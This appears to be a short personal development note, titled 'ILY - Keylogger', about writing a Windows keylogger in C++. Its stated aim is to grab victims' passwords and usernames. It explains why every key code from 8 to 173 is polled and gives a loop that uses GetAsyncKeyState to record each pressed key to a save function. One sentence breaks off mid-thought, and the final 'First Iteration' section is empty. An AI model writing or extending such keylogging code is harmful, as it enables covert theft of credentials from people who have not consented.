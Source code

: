 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:**

---
# ILY - Keylogger
# General
## startLogging()
Is not possible to know which key has been pressed after it happened, so the only way to know it is to check all possible valid keys in the ASCII symbols every time. Due to or goal, grab passwords and usernames, the last valid symbol is the "¡" that has the number 173.

Now that we are checking all the possible characters, its important to determine how are we going to 
```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

# First Iteration
